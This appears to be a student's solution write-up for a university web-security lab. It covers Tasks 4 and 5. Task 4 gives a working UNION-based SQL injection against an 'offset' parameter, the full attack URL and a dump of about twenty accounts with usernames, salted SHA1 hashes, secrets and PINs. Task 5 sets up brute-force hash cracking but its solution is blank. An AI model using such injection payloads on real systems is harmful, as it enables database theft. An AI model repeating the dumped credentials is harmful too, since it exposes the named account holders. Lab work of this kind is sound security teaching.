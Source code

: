 ## Task 4: Exfiltrate a list of all usernames, passwords, salts, secrets and pins
Bored of reading secret messages? Let's do some harm. What about exfiltrating all data stored in the database?
---
solution:

Using offset SQL injection, we can obtain whole list like that:
```sql
0 UNION SELECT CONCAT(username, ', ', password, ', ', salt, ', ', secret, ', ', pin), 1 FROM users;
```
so the URL is following:
```
https://kbe.felk.cvut.cz/index.php?offset=0%20UNION%20SELECT%20CONCAT(username,%20%27,%20%27,%20password,%20%27,%20%27,%20salt,%20%27,%20%27,%20secret,%20%27,%20%27,%20pin),%201%20FROM%20users;
```

and the result in form username, password, salt, secret, pin
```
charvj10, 284709bfe4fbf1aefec9482f34bcf03470d078bd, 4f093, HT5MIVD2KADVOGXC, 9748
drimajak, 1fea7f1395fe92eb4cf70f261c54a32a49e94914, c6880, OPWNDPUVYDD2NZ5Z, 8693
forstluk, c95cbbc323b039cbb8594f1e406163a8d8f05fc7, b643c, F4SZTF6JCSZIUJAS, 8352
halasluk, 4484b673dec9e7dcb54f40f752a0bdc830cc294f, 5a1b8, VC63ZKWNJSNBJ36C, 9380
hereldav, b6a69d59dd2313f6d1237f9e34ef68e466a1cdbe, a0c58, UYQ3HCP7Q67OIONB, 3541
hlusijak, 7010fd5fadaef60371cc8a65493aa5c4ac3be6c0, 2e362, 6SJJJGVQ5ZMVX77K, 3142
hruskan1, 4a90c2db5ab816ca36e23bdcfa51201a2fbd7808, 7aac6, QO2WCOGARO2DFLYC, 1496
kadlej24, e3fbf88139050fedaa655160b97000f5a165cacf, 77a32, NKHLS45QURQYUVHB, 1962
landama2, 6537a630a32e92eeec54170e55eae5c11d5f7968, 6a666, WJT3PREACWCFNTV3, 7329
manhaond, 3a59fbb150c725c7eabba452410f2553eb3782e6, c6b72, IQASWFV24KZPCL4I, 4377
mayerja1, 6ce4b86f28d9edc46a73b4a29d772a5174ccd936, 110cf, W5HMGFVHQZAI3IGO, 3937
michap17, 202ea007933f809d4417979f03064025e2edd0d4, 63c9a, LH4R7QBUHF6M4WSO, 1663
outravoj, c73d9bddc004074ab86be659423fbed312da6f13, 2db4b, RDYZT6Q3TPUCY3OV, 2690
purkrmir, 30adf221c75c06db71155f3d1376e972b14c5b03, 30990, 627WTIRH2YR6BUZT, 4933
repamart, e100c06f3a9d3426de2c974448a3ab6cb8b0e247, f75bf, 6VG4QMSVKJFJ7TC2, 7135
sidlovac, 2e4872bde96cffd5aec7b40e1dc51080205e3062, 0c8fb, 5UG2B4SA762B5N2R, 1601
sipekmi2, fd1602b07769c3a774802f0ef2e25f8eee69c5c3, f5254, NHNDJXFKFDNR6NMD, 7634
uhlikfil, c6a63022478e2d28c0a191587ab466db2b3da9d8, 3dad0, IW2PKTDXXHDLMLY5, 1830
vankejan, 27686936e8285f4d5dabf72443356159a89114bc, e2d72, F7ALLHF7DKD6K4VL, 8011
kucerkr1, 476c77fbd5ada79d1cde60dcec29da504d66e5bc, cf50f, 2FWOJFMVDECP5LCJ, 3610
```

## Task 5: Crack your password hash
Do you want to be able to login as a regular user? Well, then you need to know your password in addition to your PIN and SECRET. Passwords of student accounts are [hashed](https://en.wikipedia.org/wiki/Cryptographic_hash_function) and [salted](https://en.wikipedia.org/wiki/Salt_(cryptography)) in the following [inappropriate](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html#password-hashing-algorithms) way: `sha1($password . $salt)`, where $password is five characters long string consisting of lowercase letters and numbers. Write a script trying all possible combinations.
---
solution:

